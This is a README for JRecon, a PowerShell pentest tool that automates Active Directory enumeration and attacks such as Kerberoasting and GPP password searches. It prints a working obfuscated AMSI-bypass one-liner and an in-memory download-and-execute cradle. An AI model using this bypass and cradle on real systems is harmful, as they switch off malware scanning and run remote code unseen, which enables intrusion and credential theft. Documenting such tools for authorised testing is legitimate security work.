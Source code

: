 # JRecon
### A tool to automate Active Directory Enumeration
I've been working on this tool to automate a good part of the initial AD enumeration phase.
JRecon is not perfect, but it does it's job for me.

### What can JRecon do for you ?

JRecon will initially ask you if you want to download tools like Nessus, WinShareEnum, AdvIPScanner, HFS, VirtualBox, and Kali OS

It will then ask you the following:

Do you want to run the initial Domain Enumeration ?

Do you want to run BloodHound Collection ?

Do you want to download and run PingCastle ?

Do you want to enumerate Readable Shares ?

Do you want to use PingCastle to enumerate shares ?

Do you want to enumerate Writable Shares ?

Do you want to run a URL File Attack ?

Do you want to run a Kerberoast (and ASREPRoast) attack ?

Do you want to check for presence of Kerb Tickets in your local machine ?

Do you want to check for Misconfigured Certificate Templates ?

Do you want to enumerate for Vulnerable GPOs ?

Do you want to enumerate LDAP Signing ?

Do you want to check for Exploitable Systems ?

Do you want to search for Passwords in GPO ?

Do you want to search for Passwords in SYSVOL/Netlogon ?

### How to run ?

First bypass AMSI (example below)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Set a variable to download your licensed version of PingCastle

(If you skip this step PingCastle Free Edition will be downloaded - Not for commercial use)

```
$jpingdownload = "<URL>"
```

You can set the variable "$jYesToAll" to "All" (before running the tool) to make it run without asking questions

This feature is probably best to use if you know the tool already, and you know it won't go out of scope

```
$jYesToAll = "All"
```

Finally, invoke and run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('')
```

## JRecon is a collection of other scripts and tools

### Which tools are included?


**Rubeus**

Rubeus is a C# toolset for raw Kerberos interaction and abuses.

@Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 

**Grouper3**

Find vulnerabilities in AD Group Policy, but do it better than Grouper2 did.

@Credit to: https://github.com/Group3r/Group3r
 

**Certify**

Active Directory certificate abuse. 

@Credit to: https://github.com/GhostPack/Certify


**LdapSignCheck**

C# project to check LDAP signing.

@Credit to: https://github.com/cube0x0/LdapSignCheck


**PingCastle** (Free Edition - **Not for commercial use**)

Get Active Directory Security at 80% in 20% of the time

@Credit to: https://github.com/vletoux/pingcastle


**SharpHound**

C# Data Collector for the BloodHound Project

@Credit to: https://github.com/BloodHoundAD/SharpHound


**ADRecon**

ADRecon is a tool which gathers information about the Active Directory

@Credit to: https://github.com/sense-of-security/ADRecon


**Invoke-Kerberoast**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1


**PowerView**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1


**Invoke-ShareFinder**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-ShareFinder.ps1


**AmsiScanBuffer bypass**

Author: Rasta Mouse (@_RastaMouse)

@Credit to: https://twitter.com/_RastaMouse


**Get-ExploitableSystems**

Author: Scott Sutherland (@_nullbind)

@Credit to: https://github.com/nullbind/Powershellery/blob/master/Stable-ish/ADS/Get-ExploitableSystems.psm1


**Get-GPPPassword**

Author: Chris Campbell (@obscuresec)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
